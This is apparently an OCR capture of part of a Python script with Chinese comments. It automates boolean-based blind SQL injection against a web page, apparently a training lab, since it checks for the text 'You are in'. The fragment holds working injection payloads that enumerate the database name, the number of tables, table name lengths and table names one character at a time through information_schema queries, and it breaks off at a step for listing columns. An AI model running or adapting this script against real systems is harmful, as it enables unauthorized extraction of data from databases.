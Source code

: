 ```python
            if re.search("You are in", response):
                db_name += chr(a)
                break
            else:
                a += b
print("db_name:" + db_name)


# 2 查表数量

print('table:')
table_num = 0

while True:
    param = "1' and (select count(*) from information_schema.tables where table_schema=database())=" + str(
        table_num) + " #"
    response = request.urlopen(url + parse.quote(param)).read().decode()

    if re.search("You are in", response):
        # print("table_num:"+str(table_num))
        
        break
    else:
        table_num += 1


# 查表长度

def ta_length(num):
    table_length = 0
    while True:
        param = "1' and length(substr((select table_name from information_schema.tables where table_schema=database() " \
                "limit " + str(num) + ",1),1))=" + str(table_length) + " #"
        response = request.urlopen(url + parse.quote(param)).read().decode()

        if re.search("You are in", response):
            return table_length
        else:
            table_length += 1


# 查表

for n in range(table_num):
    table_name = ""
    for l in range(ta_length(n)):  # 表的长度
        
        for a in range(0, 128):  # 爆破表
            
            param = "1' and ascii(substr((select table_name from information_schema.tables where " \
                    "table_schema=database() limit " + str(n) + ",1)," + str(l + 1) + ",1)) =" + str(a) + " # "
            response = request.urlopen(url + parse.quote(param)).read().decode()
            if re.search("You are in", response):
                table_name += chr(a)
                break
    print("[*]:" + table_name)

# 3 查字段

```